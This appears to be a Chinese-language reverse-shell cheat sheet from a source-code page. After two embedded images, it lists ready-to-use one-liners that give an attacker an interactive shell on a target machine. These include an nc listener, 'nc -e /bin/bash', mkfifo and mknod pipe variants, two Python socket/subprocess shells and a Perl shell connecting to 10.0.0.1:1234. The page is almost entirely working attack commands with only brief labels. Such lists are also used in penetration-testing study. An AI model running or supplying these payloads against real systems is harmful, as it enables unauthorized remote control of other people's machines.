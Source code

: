 ![](https://ws1.sinaimg.cn/large/64ef14dcgy1fymz6ztna0j20lw0au10p.jpg)

![](https://ws1.sinaimg.cn/large/64ef14dcgy1fymz73833rj210w05gn41.jpg)



`nc`方式

本机运行

```bash
nc -l -vv -p port
```

目标主机

```bash
nc -e /bin/bash ip port
```



另一种`nc`方式

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f
```

或者

```bash
mknod backpipe p && nc ip port 0<backpipe | /bin/bash 1>backpipe
```

或者

```bash
/bin/sh | nc 受害者ip port		#这个比较特殊,需要在你自己的机器上运行
```



`python`方式

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

另一种

```python
python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('ip',port))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"
```



`Perl`方式

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
